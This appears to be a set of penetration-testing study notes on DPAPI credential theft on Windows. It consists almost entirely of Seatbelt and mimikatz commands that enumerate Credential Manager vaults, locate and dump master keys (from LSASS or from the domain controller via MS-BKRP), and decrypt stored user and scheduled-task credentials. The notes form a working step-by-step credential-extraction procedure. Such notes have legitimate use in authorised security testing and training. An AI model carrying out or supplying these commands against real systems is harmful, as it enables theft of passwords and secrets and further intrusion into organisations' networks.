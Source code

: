 # DPAPI Notes

**Credential Manager**


To enumerate a user's vaults, you can use the native vaultcmd tool.
```
run vaultcmd /list
```

Another is to use Seatbelt 
```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

The encrypted credentials themselves are stored in the users' "Credentials" directory.
```
ls C:\Users\<USER>\AppData\Local\Microsoft\Credentials
```

Seatbelt can also enumerate them using the WindowsCredentialFiles parameter
```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles
```

Seatbelt also provides the GUID of the master key used to encrypt the credentials.  The master keys are stored in the users' roaming "Protect" directory
```
ls C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\
```

To decrypt
```
mimikatz !sekurlsa::dpapi
```
Another way to obtain the master key (which does not require elevation or interaction with LSASS), is to request it from the domain controller via the Microsoft BackupKey Remote Protocol (MS-BKRP).  
```
mimikatz dpapi::masterkey /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<master key> /rpc
```

Now get the decryption
```
mimikatz dpapi::cred /in:C:\Users\<USER>\AppData\Local\Microsoft\Credentials\<credential> /masterkey:<masterkey>
```

**Scheduled Task Credentials**

check for scheduled tasks under:
```
C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\
```

dpapi::cred can tell us the GUID of the master key used to encrypt each one
```
mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E
```

to dump cached keys
```
mimikatz !sekurlsa::dpapi
```

then decrypt
```
mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E /masterkey:10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9
```
